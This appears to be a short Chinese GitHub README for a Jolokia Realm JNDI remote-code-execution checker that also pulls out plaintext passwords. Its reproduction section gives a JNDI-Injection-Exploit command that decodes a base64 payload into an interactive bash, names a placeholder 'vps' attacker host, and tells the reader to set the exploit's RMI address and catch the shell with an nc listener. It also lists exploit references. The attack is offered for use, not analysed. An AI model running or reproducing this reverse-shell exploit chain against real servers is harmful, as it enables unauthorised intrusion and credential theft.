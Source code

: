 # jolokia_Realm_JNDI_RCE_Check

jolokia Realm JNDI RCE 漏洞检测，并获取明文密码

![img](image/img.png)g



#### 漏洞复现



```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,base64}|{base64,-d}|{bash,-i}" -A "vps"
```

![img1](image/img1.png)



修改 expliot 中的 url 和 rmi 地址

![img2](image/img2.png)



nc 监听端口

![img3](image/img3.png)



#### 参考文章

https://github.com/LandGrey/SpringBootVulExploit#0x05jolokia-realm-jndi-rce

https://zhuanlan.zhihu.com/p/369853014

https://r0yanx.com/tools/java_exec_encode/

https://github.com/welk1n/JNDI-Injection-Exploit


